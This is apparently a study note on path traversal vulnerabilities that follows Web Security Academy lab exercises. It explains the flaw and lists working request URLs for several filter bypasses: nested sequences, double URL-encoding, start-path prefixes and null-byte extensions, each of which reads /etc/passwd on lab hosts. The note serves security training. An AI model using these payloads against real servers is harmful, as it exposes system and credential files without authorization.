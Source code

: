 
Path traversal is also known as directory traversal. These vulnerabilities enable an attacker to read arbitrary files on the server that is running an application. This might include:

- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

## Example

Imagine a shopping application that displays images of items for sale. This might load an image using the following HTML:

`<img src="/loadImage?filename=218.png">`

The `loadImage` URL takes a `filename` parameter and returns the contents of the specified file. The image files are stored on disk in the location `/var/www/images/`. To return an image, the application appends the requested filename to this base directory and uses a filesystem API to read the contents of the file. In other words, the application reads from the following file path:

`/var/www/images/218.png`

This application implements no defenses against path traversal attacks. As a result, an attacker can request the following URL to retrieve the `/etc/passwd` file from the server's filesystem:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

This causes the application to read from the following file path:

`/var/www/images/../../../etc/passwd`

The sequence `../` is valid within a file path, and means to step up one level in the directory structure. The three consecutive `../` sequences step up from `/var/www/images/` to the filesystem root, and so the file that is actually read is:

`/etc/passwd`

###### Lab: File path traversal, simple case

- Just open an image in another tab:

```http
https://0aef00e40444983780e7c207009c002e.web-security-academy.net/image?filename=7.jpg
```

- Change the filename in:

`/image?filename=../../../../etc/passwd`

## Common obstacles to exploiting path traversal vulnerabilities

Many applications that place user input into file paths implement defenses against path traversal attacks. These can often be bypassed.

If an application strips or blocks directory traversal sequences from the user-supplied filename, it might be possible to bypass the defense using a variety of techniques.

### Absolute file path bypass

You might be able to use an absolute path from the filesystem root, such as `filename=/etc/passwd`, to directly reference a file without using any traversal sequences.

###### Lab: File path traversal, traversal sequences blocked with absolute path bypass

This lab contains a path traversal vulnerability in the display of product images.

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

- Open an image in another tab:

```http
https://0aef00e40444983780e7c207009c002e.web-security-academy.net/image?filename=7.jpg
```

- Change the filename in:

`/etc/passwd`

### Nested traversal sequences bypass

You might be able to use nested traversal sequences, such as `....//` or `....\/`. These revert to simple traversal sequences when the inner sequence is stripped.
###### Lab: File path traversal, traversal sequences stripped non-recursively

The application strips path traversal sequences from the user-supplied filename before using it.

```http
https://0a0000cd0491ce578327d7a000060052.web-security-academy.net/image?filename=....//....//....//....//etc//passwd
```


### Encoded traversal sequence bypass 

In some contexts, such as in a URL path or the `filename` parameter of a `multipart/form-data` request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding the `../` characters. This results in `%2e%2e%2f` and `%252e%252e%252f` respectively.

###### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

- Open an image in another tab and double URL-encode the path traversal sequence:

```http
https://0a99007f03a1856384c2bd1200a3007c.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

### Validation of start path bypass

An application may require the user-supplied filename to start with the expected base folder, such as `/var/www/images`. In this case, it might be possible to include the required base folder followed by suitable traversal sequences. For example: `filename=/var/www/images/../../../etc/passwd`.

###### Lab: File path traversal, validation of start of path

- Open an image in another tab and use the usual path traversal sequence but starting with `/var/www/images`:

```http
https://0aad00a604c81e9580a0f8e300df0028.web-security-academy.net/image?filename=/var/www/images/../../../../etc/passwd
```

### File extension with null byte bypass

An application may require the user-supplied filename to end with an expected file extension, such as `.png`. In this case, it might be possible to use a null byte to effectively terminate the file path before the required extension. For example: `filename=../../../etc/passwd%00.png`

###### Lab: File path traversal, validation of file extension with null byte bypass

- Open an image in another tab and use the usual path traversal sequence but ending with a null byte `%00` and a valid file extension  `.jpg`:

```http
https://0a7a000803b96fc6817fd9dc000a00e8.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg
```

## Prevention

- Don’t use strings! Use instead filesystem APIs
- Get the canonical form of the path and validate it against your business rules



